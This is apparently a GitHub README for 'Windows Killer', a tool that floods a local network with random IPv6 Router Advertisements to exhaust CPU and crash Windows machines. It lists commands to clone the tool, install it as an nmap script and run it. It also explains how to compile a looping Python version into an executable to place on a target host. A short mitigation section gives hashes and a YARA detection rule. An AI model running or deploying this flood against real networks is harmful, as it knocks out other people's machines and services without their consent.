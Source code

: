 # :hocho: Windows Killer
![download](https://user-images.githubusercontent.com/72598486/155909101-8fefd534-382b-4c81-93a2-36023e658362.jpeg)

Generates a flood of Router Advertisements (RA) with random source MAC addresses and IPv6 prefixes. Computers, which have stateless autoconfiguration enabled by default (every major OS), will start to compute IPv6 suffix and update their routing table to reflect the accepted announcement. This will cause 100% CPU usage on Windows and platforms, preventing to process other application requests.

# Install

git clone https://github.com/Kleptocratic/WindowsKiller.git

# Check for location of other NSE scripts

find / -name '*.nse'

# Move downloaded files into directory

sudo mv WindowsKiller.nse /usr/local/share/nmap/scripts/

# Execute script

nmap -6 --script WindowsKiller.nse --script-args 'interface=<interface>'
  
# WindowKiller.py
  
Designed as an eternal loop to be compiled as an executable and placed on target host, the script will pseudo-generate IPv6 Router Advertisements and flood the network with potential connections. Warning: this script will crash most, if not all, Windows operating systems within the LAN. This script is for educational purposes only. Be wise, stay legal.

# Compiling WindowsKiller.py as an Executable
  
Install PyInstaller from PyPI:

  pip install pyinstaller

Go to your program’s directory and run:

  pyinstaller --onefile WindowsKiller.py

Navigate to the "dist" file to find your executable!

# VirusTotal 
  
![WindowsKiller](https://user-images.githubusercontent.com/72598486/130345543-f3219aaa-651f-4787-8bd5-7614f6e0f731.png)

# Mitigation

## Hashes
  
```
Mac OSX - ed664d8bf41bb35ca3f09fb5c913a747cace873ec318d5857b0fe2cceb08089c
Linux - 4b8f3ef3376463bd4e9c92c4e20a61e33baf9648336ed7abcc17dd14299b918b
Windows - 13bc596bff3a37113f6f36c1b1c6a836ac7391169ab53d1ad8ba72d39900808
```
  
## YARA Rule for Detection
 
```
rule WindowsKillerExecutable {
    meta:
      description = "Detects Windows Killer IPv6 Router Advertisement Denial of Service Executable"
      date = "2022-02-27"
      linuxhash = "4b8f3ef3376463bd4e9c92c4e20a61e33baf9648336ed7abcc17dd14299b918b"
      machash = "ed664d8bf41bb35ca3f09fb5c913a747cace873ec318d5857b0fe2cceb08089c"
      windowshash = "13bc596bff3a37113f6f36c1b1c6a836ac7391169ab53d1ad8ba72d39900808"
    strings:
      $ = "_MEIPASS"
      $ = "PyMem_RawFree"
      $ = "sWindowsKiller"
      $ = "importlib.machinery"
      $ = "blib-dynload/_random.cpython"
    condition:
      all of them
}
```

## Community Engagement

[![Stargazers over time](https://starchart.cc/RoseSecurity/WindowsKiller.svg)](https://starchart.cc/RoseSecurity/WindowsKiller)
